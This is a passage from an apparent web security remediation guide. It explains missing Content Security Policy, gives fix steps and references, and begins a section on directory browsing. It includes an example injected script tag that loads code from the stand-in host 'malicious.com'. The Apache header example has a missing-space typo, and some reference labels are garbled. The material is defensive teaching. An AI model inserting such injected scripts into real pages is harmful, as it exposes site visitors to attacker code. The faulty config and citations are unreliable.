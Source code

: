 For example, an attacker could inject a script like the following:

```html
<script src="http://malicious.com/malicious.js"></script>
```

Since CSP is not enforced, the browser would execute the script from the malicious source.

Common tools used for exploiting CSP bypasses include:
- Burp Suite for intercepting and modifying HTTP requests
- OWASP ZAP for scanning and testing web applications
- CSP Evaluator for evaluating CSP policies


**Solution:**

To remediate the absence of CSP, follow these steps:

1. Set the CSP header in the web server or application server configuration.
2. Define the CSP policy to specify the allowed sources of resources.
3. Use a library or framework that automatically sets the CSP header with a default policy.
4. Regularly update and patch the web server or application server to ensure CSP is properly set.

For example, in an Apache configuration, you can use the following code to set the CSP header:

```apache
Header set Content-Security-Policy "default-src'self'; script-src 'none';"
```

This configuration sets a default-src policy that only allows resources from the same origin and disables the execution of inline scripts.

To verify the fix, you can:
- Manually test the application with various CSP bypass techniques to ensure they are blocked.
- Use automated tools to scan the application for CSP bypass vulnerabilities.
- Monitor the application logs for any signs of CSP exploitation attempts.


**Reference:**

- OWASP CSP Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html
- OWASP CSP Evaluator: https://www.owasp.org/index.php/OWASP_CSP_Evaluator
- CWE 200: Information Exposure: https://cwe.mitre.org/data/definitions/200.html
- OWASP Top 10: A2013-A1:2017 - Injection: https://www.owasp.org/index.php/Top_10_2013-A1-Injection
- OWASP Top 10: A2017-A1:2017 - Injection: https://www.owasp.org/index.php/Top_10-2017-A1-Injection

By following these steps and best practices, you can effectively remediate the absence of CSP and improve the security of your web applications.


---



### Directory Browsing

**Issue:**

The vulnerability alert details the presence of directory browsing, which is a security issue in web applications. Directory browsing allows users to view the contents of a directory on the server, which can reveal sensitive information such as scripts, include files, backup source files, and more.
